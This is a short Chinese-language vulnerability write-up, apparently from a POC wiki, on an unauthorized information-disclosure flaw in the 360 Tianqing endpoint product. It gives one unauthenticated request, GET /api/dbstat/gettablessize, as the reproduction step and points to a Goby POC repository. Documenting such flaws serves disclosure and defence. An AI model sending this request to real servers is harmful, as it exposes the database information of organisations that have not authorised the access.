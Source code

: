 # 天擎 数据库信息泄露漏洞

## 漏洞描述

天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

> [!NOTE]
>
> 天擎

## 漏洞复现

```
GET /api/dbstat/gettablessize HTTP/1.1
```

![](http://wikioss.peiqi.tech/vuln/tq-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360_Tianqing_database_information_disclosure

![](http://wikioss.peiqi.tech/vuln/tq-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
